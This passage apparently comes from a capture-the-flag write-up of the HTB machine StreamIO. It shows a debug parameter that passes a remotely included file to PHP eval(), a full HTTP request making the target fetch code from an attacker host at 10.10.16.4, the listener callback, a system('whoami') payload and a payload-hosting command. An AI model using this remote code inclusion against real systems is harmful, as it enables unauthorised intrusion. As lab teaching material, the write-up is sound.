 That means it:

- **Reads the contents** of the file specified in the `include` parameter.
- **Evaluates it as PHP code** directly in memory; **Effectively, this is arbitrary PHP code execution.**

Let’s try including master.php in our debug parameter, then point to our URL:

```bash
POST /admin/?debug=master.php HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=b10arkkc2eefi5ngo381v7kv6r
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

include=http%3a//10.10.16.4/hello
```

Response:

```bash
listening on [any] 80 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.158] 56161
GET /hello HTTP/1.0
Host: 10.10.16.4
Connection: close

```

It worked. Now let’s create our payload. Since eval() expects raw php code, we do not need our php tags; first, let’s test our a normal whoami

```bash
system("whoami");
```

Now let’s execute again. First host our listener:

```bash
python3 -m http.server 80
```

On burp repeater, our request:

![image.png]({{ site.baseurl }}/assets/streamio/image%2031.png)
